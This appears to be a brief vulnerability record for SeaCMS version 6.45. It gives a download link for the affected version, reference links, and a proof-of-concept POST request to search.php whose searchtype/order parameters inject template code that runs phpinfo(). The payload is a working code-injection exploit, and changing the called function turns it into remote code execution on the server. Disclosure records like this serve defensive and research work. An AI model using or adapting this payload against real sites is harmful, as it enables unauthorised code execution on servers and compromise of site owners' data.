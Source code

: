 ##  Affected Version 6.45

 下载地址：

 链接：https://pan.baidu.com/s/1uw_VnxnvG4GGEae4TRsGGw 

 密码：cd48




## POC



`http://127.0.0.1/seacms645/search.php`

`post:searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if}`



![](http://opmi2ydgh.bkt.clouddn.com//18-7-5/92423502.jpg)



## References

[https://bbs.ichunqiu.com/thread-35085-1-1.htmlß](https://bbs.ichunqiu.com/thread-35085-1-1.htm)

[http://0day5.com/archives/4249/](http://0day5.com/archives/4249/)

[https://blog.csdn.net/qq_35078631/article/details/76595817](https://blog.csdn.net/qq_35078631/article/details/76595817)



